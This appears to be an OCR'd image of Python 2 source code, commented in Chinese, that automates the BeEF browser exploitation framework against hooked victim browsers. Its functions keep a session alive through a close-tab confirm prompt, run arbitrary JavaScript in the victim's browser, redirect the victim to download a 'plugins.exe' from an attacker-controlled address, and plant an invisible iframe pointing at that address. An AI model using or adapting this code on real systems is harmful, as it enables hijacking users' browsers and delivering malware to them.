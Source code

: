 ```
#通过这种方式来增加shell的存活时间
# persistence -> confirm close tab
def sendConfirm(host, session, authkey):
    postdata = '{}'
    url = host + "api/modules/" + session + "/46?token=" + authkey
    #print url
    req = urllib2.Request(url, postdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    f = urllib2.urlopen(req)
    print "   >>> [+] Module Confirm Close Tab has been Executed ! "
    return f.read()			
	
	
# 使用beef模块，弹窗功能
# Misc -> IBM iNotes -> RAW js
def execJavascript(host, session, authkey):

    payload={
        "cmd":"alert('Hello by ssooking!');"
    }
	# 169是beef模块的id
    apiurl = host + "api/modules/" + session + "/3?token=" + authkey
    jdata = json.dumps(payload)
    req = urllib2.Request(apiurl, jdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    response = urllib2.urlopen(req)
    resdata = response.read()
    print "   >>> [+] Module Raw JavaScript has been Executed ! "
    return resdata

# 使受害者浏览器跳转到一个下载页面并下载。。。

def redirectBrowser(host, session, authkey):
    payload = {"redirect_url":"http://192.168.137.134:8000/plugins.exe"}
    apiurl = host + "api/modules/" + session + "/42?token=" + authkey
    jdata = json.dumps(payload)
    req = urllib2.Request(apiurl, jdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    response = urllib2.urlopen(req)
    resdata = response.read()
    jsondata =  json.loads(resdata)
    print "   >>> [+] Module Redirect Browser has been Executed ! "
    return jsondata

	
# 创建一个隐藏的Frame,target是目的地的url
# Misc -> IBM iNotes -> Create Invisible iframe
def createIFrame(host, sessionId, authkey):
    postdata = '{"target":"http://192.168.137.134:8000/"}'
    url = host + "api/modules/" + sessionId + "/4?token1=" + authkey
    req = urllib2.Request(url, postdata)
    req.add_header("Content-Type", "application/json; charset=UTF-8")
    f = urllib2.urlopen(req)
    print "   >>> [+] Module Create Invisible Iframe has been Executed ! "
    return f.read()



	
def autoRunModules(host,session,authkey):
    # sendConfirm(host, session, authkey)
    execJavascript(host, session, authkey)
    # redirectBrowser(host, session, authkey)
```